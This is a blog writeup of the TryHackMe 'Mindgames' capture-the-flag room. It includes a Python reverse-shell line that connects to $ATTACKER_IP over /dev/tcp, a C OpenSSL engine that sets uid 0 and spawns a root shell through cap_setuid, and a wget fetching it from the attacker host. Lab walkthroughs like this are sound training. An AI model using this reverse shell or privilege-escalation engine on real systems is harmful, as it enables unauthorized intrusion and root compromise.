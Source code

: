 ```yaml
---
layout: default
title : bvr0n - Mindgames | Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Oct 05, 2020**_

[Mindgames](https://tryhackme.com/room/mindgames) Writeup

## Nmap Scan :
```
bvr0n@kali:~/CTF/THM/Mindgames$ nmap -sC -sV -Pn 10.10.149.6

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page : 

Looks like we have some brainfuck, after decoding the first one it gives some python3 regular :
```
print("Hello, World")
```
But when submitting the brainfuck code in the bottom form, it looks like it executs everything in python, let's turn our text into brainfuck get a revershell with this : 
```
import os

os.system('bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/8080 0>&1"')
```
And we got a reverse shell.

## Internal Enum :

Something caught my eyes when running linpeas :
```
Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep is writable
```
You can find out more about cap_setuid [HERE](https://man7.org/linux/man-pages/man3/cap_setuid.3.html) :

Now based on [GTFOBins](gtfobins.github.io/) : 
```
It loads shared libraries that may be used to run code in the binary execution context.
```


## Solution :

So in conclusion we need to create An OpenSSL Engine, [Check Here](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/) :

This is the final script :
```
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}


IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
```
bvr0n@kali:~$ gcc -fPIC -o ssl-foo.o -c ssl-foo.c 
bvr0n@kali:~$ gcc -shared -o ssl-foo.so -lcrypto ssl-foo.o
```
then we download it from the victim's machine :
```
mindgames@mindgames:/tmp$ wget $ATTACKER_IP:8000/ssl-foo.so
```
and run our little engine :
```
mindgames@mindgames:/tmp$ openssl engine -t `pwd`/ssl-foo.so
root@mindgames:/tmp# id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
```

And we are ROOT!!

<br>
best regards

[bvr0n](https://linkedin.com/in/taha-el-ghadraoui-5921771a5)


<br>
[back to main()](../../index.md)

<br>
